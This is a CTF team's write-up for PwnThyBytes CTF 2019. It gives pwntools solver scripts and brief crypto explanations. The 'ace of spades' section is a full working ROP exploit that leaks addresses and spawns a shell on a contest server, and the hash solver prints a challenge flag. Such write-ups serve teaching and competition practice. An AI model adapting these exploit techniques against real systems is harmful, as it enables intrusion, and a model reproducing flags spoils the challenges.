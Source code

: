 # PwnThyBytes CTF 2019

**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20190928-pwnthybytesctf/) of this writeup.**


 - [PwnThyBytes CTF 2019](#pwnthybytes-ctf-2019)
   - [Warmup/Learning](#warmuplearning)
     - [pass_the_hash](#pass_the_hash)
   - [Memory Corruption](#memory-corruption)
     - [ace of spades](#ace-of-spades)
   - [Crypto](#crypto)
     - [Wrong ring](#wrong-ring)
     - [Avec](#avec)
     - [LOTR](#lotr)


## Warmup/Learning

### pass_the_hash

```python=
from pwn import *
from hashlib import *
import hashlib

host, port = '52.142.217.130', 13374

p_head_ans, p_tail_ans = '', ''
p_head_l, p_tail_l = [], []

def send(r):
    global p_head_ans, p_tail_ans, p_head_l, p_tail_l
    salt_1 = os.urandom(11) + '\x00'
    salt_2 = '\x00' + os.urandom(11)
    salt = salt_1 + salt_2
    r.sendline(salt.encode('hex'))

    h = r.recvline()[:-1].decode('hex')
    l_pass, r_pass = h[:32], h[32:]
    p_head = xor(xor(l_pass[-12:], salt_1), l_pass[:12])
    p_tail = xor(xor(r_pass[:12], salt_2), r_pass[-12:])

    if not p_head_ans:
        if p_head in p_head_l:
            print('found p_head')
            print(p_head)
            p_head_ans = p_head
        else:
            p_head_l.append(p_head)

    if not p_tail_ans:
        if p_tail in p_tail_l:
            print('found p_tail')
            print(p_tail)
            p_tail_ans = p_tail
        else:
            p_tail_l.append(p_tail)

def main():
    r = remote(host, port)
    r.recvline()

    for i in range(1024):
        if p_head_ans and p_tail_ans:
            break
        print(i)
        send(r)

    r.sendline('')
    r.recvline()
    salt = r.recvline()[:-1].decode('hex')
    password = p_head_ans + p_tail_ans[-8:]

    no_rounds = 16
    h_list = [sha, sha1, ripemd160, sha256]
    ans = combo_hash(salt, password, h_list, no_rounds).encode('hex')
    r.sendline(ans)
    r.interactive()

main()
# PTBCTF{420199e572e685af8e1782fde58fd0e9}
```

## Memory Corruption

### ace of spades

x86 32bit efl, strcpy has vulnerabilty when the src and dest are overlaping.
duplicating ace of spades, make play point be 16000.

Then, overwrite the rbp and ret addr, ROP attack.

```python=
from pwn import *
import sys


if len(sys.argv) > 1:
    r = remote('137.117.216.128', 13375)
else:
    r = process('./ace_of_spades')

def draw():
    r.sendlineafter(':', '1')

def discard():
    r.sendlineafter(':', '2')

def play():
    r.sendlineafter(':', '3')

def show():
    r.sendlineafter(':', '4')

def fold():
    r.sendlineafter(':', '5')

#for i in range(29):
#	draw()

target1 = 0x81839ff0
target2 = 0xa1829ff0 
target3 = 0xbe829ff0

def get_leak():
	show()
	r.recvuntil('hand is:\n')
	r.recvn(5*22)
        val = u32(r.recvn(5)[1:]) 
	if val == target1 or val == target2 or val == target3:
	    return 0
	return u32(r.recvn(4)) 

def duplicate(target):
    while True:
	for i in range(24):
	    draw()
	if target == get_leak():
            for i in range(5):
                draw()
            discard()
            return
        else:
            fold()

for i in range(10):
   print('magic', i)
   duplicate(0xa1829ff0)
   fold()

"""
for i in range(10):
   print('t1', i)
   duplicate(0x81839ff0)
   fold()

for i in range(10):
   print('t3', i)
   duplicate(target3)
   fold()
"""

print("done")


#r.interactive()
while True:
    for i in range(5):
        draw()

    play()
    r.recvuntil('points: ')
    point = int(r.recvline()[:-1])
    print('hello', point)
    if point >= 16000 and point < 17000:
        r.recvuntil('prize: ')
	stack = u32(r.recvn(4))-0x10
	code = u32(r.recvn(4))-0x1355
	print hex(stack)
	print hex(code)

	payload = flat(
	0x1234,
	code+0x638,0x1234,0,stack,0x100
	)

	r.sendlineafter(":","2")
	r.send(payload.ljust(0x20,"\x00"))

	r.sendlineafter(": ","6")

	payload = flat(
	code+0x0619,code+0x2f98,code+0x668,code+0x0619,code+0x02fb0,
	code+0x0619,code+0x2f98,code+0x638,0x1234,0,stack+0x18,0x100
	)

	r.send(payload.ljust(0x30,"\x00").ljust(0x100,"\x00"))
	libc = u32(r.recvn(4))-0x49670
	print hex(libc)
	r.send(p32(libc+0x3ac62).ljust(0x100,"\x00"))

	r.interactive()

    elif point >= 1000:
        r.sendlineafter('Choose: ', '1')     
    
    fold()

r.interactive()

```

## Crypto
### Wrong ring
Those coefficients of high degree error terms are very small(less than 0.5).
So just take those high degree terms from each result and solve some linear equations to get the flag

### Avec
The keyspace is only 32bits:

```
sage: (2**64 - 1) / 0xbcafffff435
4294967297/3019
```

So it is feasible to bruteforce the key.

However, we also need its nonce to decrypt our flag. To recover nonce, we need to know how GCM works.
In GCM mode, plaintext is encrypted using CTR mode, and then we calculate a hash of all ciphertext & auth data & length.
After that, we generate authentication tag by XOR the hash with first block of CTR keystream.

We can calculate the hash without nonce, so we can recover the first keystream block by xor the hash with final tag.
And the plaintext of first block is nonce.

### LOTR
The signature is 243 ciphertext of RSA, and the way they verify it is decrypting them with a public key, xor together, and check whether they are equal to the hash.
It's is not possible to forge the plaintext without secret key, but we can select which plaintext to xor.
To solve this task, I generate a pair of ciphertext randomly for each RSA key, and solve a GF2 linear equations to decide which one to use.
```
      [plain1_A 1 0 0 ... 0]
      [plain1_B 1 0 0 ... 0]
      [plain2_A 0 1 0 ... 0]
?  X  [plain2_B 0 1 0 ... 0]  =  [result 1 1 1 ... 1]
      ...
      [plainN_A 0 0 0 ... 1]
      [plainN_B 0 0 0 ... 1]
```

If the equation has no solution, just generate another one.

